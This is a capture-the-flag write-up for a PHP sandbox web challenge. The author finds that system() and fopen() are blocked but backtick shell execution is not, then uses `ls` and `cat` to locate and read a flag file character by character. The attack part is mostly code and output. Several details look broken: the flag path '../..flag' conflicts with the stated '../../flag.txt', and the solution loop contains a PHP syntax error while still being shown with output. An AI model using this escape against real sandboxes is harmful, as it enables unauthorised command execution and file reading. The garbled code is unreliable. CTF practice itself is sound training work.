 # **PHP Sandbox(150)**

#### tag : web, experimental

-----------------------------------------------------------------

#### Description

>We Have created an experimental PHP sandbox. Give it a go!

-----------------------------------------------------------------

#### Challenge

~~~
<?php
$out = system('ls');
echo $out;
?>
~~~

~~~
Output of size 0 was generated. The last line of output is:
~~~

First, I try to use exec and system function. But I figure out it's prohibited.

~~~
<?php
$f = fopen('../../flag.txt','r');
$out = fgets($f);
echo $out;
?>
~~~

~~~
Output of size 0 was generated. The last line of output is:
~~~

Second, I try to use file stream to read flag file. But it's prohibited too.

~~~
<?php
$out = `ls`;
echo $out;
?>
~~~

~~~
Output of size 141206 was generated. The last line of output is:
~~~

Third, I try to use val = system command to run $value in system. And I can find this way is working.

~~~
<?php
$out = `ls flag`;
echo $out;
?>
~~~

~~~
Output of size 0 was generated. The last line of output is:
~~~

~~~
<?php
$out = `ls ../flag`;
echo $out;
?>
~~~

~~~
Output of size 0 was generated. The last line of output is:
~~~

~~~
<?php
$out = `ls ../..flag`;
echo $out;
?>
~~~

~~~
Output of size 15 was generated. The last line of output is:
~~~

I can find flag.txt in path ../../,

~~~
<?php
$out = `cat ../..flag`;
echo $out;
?>
~~~

~~~
Output of size 32 was generated. The last line of output is:
~~~

Output tell me file length is 32 byte, but output is nothing. Because there is newline at end of file.

So I have to access to data by index.

~~~
<?php
$out = `cat ../..flag`;
echo $out[0];
?>
~~~

~~~
Output of size 1 was generated. The last line of output is: g
~~~

 Yes, I am able to echo flag by index.

-----------------------------------------------------------------

#### Solution

~~~
<?php
$flag = `cat ../..flag`;
$solve = "";
for($i=0; $i<=30; i++) {
  $solve = $solve.$flag[$i];
}
echo $solve;
?>
~~~

~~~
Output of size 31 was generated. The last line of output is: go-sandbox-yourself-with-a-kiwi
~~~

### **flag go-sandbox-yourself-with-a-kiwi**
